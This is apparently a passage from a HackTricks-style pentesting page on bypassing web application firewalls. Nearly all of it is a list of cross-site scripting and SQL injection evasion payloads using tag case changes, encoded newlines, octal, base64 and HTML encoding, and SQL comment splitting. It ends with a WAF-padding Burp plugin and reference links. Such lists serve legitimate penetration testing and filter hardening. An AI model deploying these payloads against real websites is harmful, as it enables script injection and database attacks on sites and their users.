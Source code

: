 ```bash
<sCrIpT>alert(XSS)</sCriPt> #changing the case of the tag
<<script>alert(XSS)</script> #prepending an additional "<"
<script>alert(XSS) // #removing the closing tag
<script>alert`XSS`</script> #using backticks instead of parenetheses
java%0ascript:alert(1) #using encoded newline characters
<iframe src=http://malicous.com < #double open angle brackets
<STYLE>.classname{background-image:url("javascript:alert(XSS)");}</STYLE> #uncommon tags
<img/src=1/onerror=alert(0)> #bypass space filter by using / where a space is expected
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=javascript:alert(1)>xss</a> #extra characters
Function("ale"+"rt(1)")(); #using uncommon functions besides alert, console.log, and prompt
javascript:74163166147401571561541571411447514115414516216450615176 #octal encoding
<iframe src="javascript:alert(`xss`)"> #unicode encoding
/?id=1+un/**/ion+sel/**/ect+1,2,3-- #using comments in SQL query to break up statement
new Function`alt\`6\``; #using backticks instead of parentheses
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ #base64 encoding the javascript
%26%2397;lert(1) #using HTML encoding
<a src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(XSS)"> #Using Line Feed (LF) line breaks
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=confirm()> # use any chars that aren't letters, numbers, or encapsulation chars between event handler and equal sign (only works on Gecko engine)
```

## Tools

- [**nowafpls**](https://github.com/assetnote/nowafpls): Burp plugin to add junk data to requests to bypass WAFs by length

## References

- [https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies)
- [https://blog.sicuranext.com/modsecurity-path-confusion-bugs-bypass/](https://blog.sicuranext.com/modsecurity-path-confusion-bugs-bypass/)
- [https://www.youtube.com/watch?v=0OMmWtU2Y_g](https://www.youtube.com/watch?v=0OMmWtU2Y_g)
- [https://0x999.net/blog/exploring-javascript-events-bypassing-wafs-via-character-normalization#bypassing-web-application-firewalls-via-character-normalization](https://0x999.net/blog/exploring-javascript-events-bypassing-wafs-via-character-normalization#bypassing-web-application-firewalls-via-character-normalization)

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{{#include ../banners/hacktricks-training.md}}

